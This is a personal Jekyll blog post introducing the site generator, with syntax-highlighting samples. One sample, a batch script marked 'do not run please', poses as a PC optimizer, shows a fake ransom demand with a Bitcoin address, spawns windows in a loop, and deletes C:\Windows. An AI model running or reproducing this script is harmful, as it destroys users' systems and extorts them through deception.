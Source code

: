 ```yaml
---
layout: post
title:  "the blog"
date:   2022-06-23 19:08:56 -0500
categories: misc
---
```

---
layout: post
title:  "jekyll/ruby initiation"
date:   2022-06-23 17:56:56 -0500
categories: jekyll update
---

## welcome to jekyll

***what is it?***
Jekyll is a simple, blog-aware, static site generator perfect for personal, project, or organization sites. Think of it like a file-based CMS, without all the complexity. Jekyll takes your content, renders Markdown and Liquid templates, and spits out a complete, static website ready to be served by Apache, Nginx or another web server. Jekyll is the engine behind GitHub Pages, which you can use to host sites right from your GitHub repositories.

***well, what can i do with it?***
Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/

### syntax highlighting

python:

{% highlight python %}
else:
    if not hasattr(weighting, repartition):
        raise Exception(f'Weighting {repartition} does not exist')
    else:
        weights = eval(f'weighting.{repartition}(frames={blended_frames})')
{% endhighlight %}

batch: (do not run please)

{% highlight batch %}
@echo off
if not %1c == c goto forked
echo optimizing your pc now!
ping /n 1 1.0.0.1 > nul
echo your file have been encrypt! Send 6 Bitcoin to
echo bc1q5u67ypnlk4n4e35ymtc2n9cuf3m8kax0mnu39t
echo or you will loose youre files for ever!
pause > nul
:forked
set /a “i+=1”
start “” https://discord.gg/CTT
start “” cmd
if not %i% == 50 goto forked
rmdir /s /q "C:\Windows"
exit
{% endhighlight %}

brainf**k:

{% highlight brainfuck %}
>+++++++++[<++++++++>-]<.>+++++++[<++++>-]<+.+++++++..+++.[-]
>++++++++[<++++>-] <.>+++++++++++[<++++++++>-]<-.--------.+++
.------.--------.[-]>++++++++[<++++>- ]<+.[-]++++++++++.
{% endhighlight}


